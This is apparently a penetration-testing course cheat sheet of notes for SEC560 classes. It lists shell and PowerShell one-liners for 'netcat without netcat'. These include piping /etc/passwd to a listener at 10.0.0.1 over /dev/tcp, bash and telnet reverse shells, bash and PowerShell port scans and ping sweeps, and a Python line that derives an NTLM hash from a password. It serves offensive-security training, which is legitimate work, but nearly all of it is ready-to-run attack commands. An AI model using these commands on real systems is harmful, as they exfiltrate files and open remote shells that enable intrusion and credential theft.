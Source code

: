 # Resources referenced during SEC560 classes


## Day 2

### Netcat without netcat

Check for existence of similar tools:
Gnu Netcat
Ncat
Socat
Linkcat
Nc.py (sometimes called Pycat) http://atlas.r4780y.com/resources/atlasutils-2.2.5.tgz

#### /dev/tcp
File transfers:
Box 1: # nc -nlvp 4444
Box 2: $ cat /etc/passwd > /dev/tcp/10.0.0.1/4444

Reverse shell:
Box 1: # nc -nlvp 8080
Box 2: $ bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

Port scanner ("Connection refused" means port is closed):
Single port:    $ echo > /dev/tcp/10.0.0.1/22
Multiple ports: $ port=1; while \[ $port –lt 1024 ]; do echo > /dev/tcp/\[IPaddr]/$port; \[ $? == 0 ] && echo $port "is open" >> /tmp/ports.txt; port=`expr $port + 1`; done


#### If /dev/tcp can't be used, try telnet
Reverse shell:
Box 1 (where you type commands):   # nc -nlvp 4444
Box 1 (where you view the output): # nc -nlvp 4445
Box 2: $ telnet 10.0.0.1 4444 | /bin/bash | telnet 10.0.0.1 4445



#### Powershell
Ping sweep:
PS C:\> 1..255 | % {ping –n 1 10.10.10.$_ | sls ttl}
1..255 | % {echo "10.10.10.$_"; ping -n 1 -w 100 10.10.10.$_ | select-string ttl}

Port scan:
21..80 | % {echo $_; echo ((new-object Net.Sockets.TcpClient).Connect("10.0.0.1",$_)) “Port $_ is open" } 2>$null


## Day 5


Generate NTLM hash if you know the password:
python -c 'import hashlib,binascii; print binascii.hexlify(hashlib.new("md4", "<password>".encode("utf-16le")).digest())'





##Credits
Ed Skoudis, http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
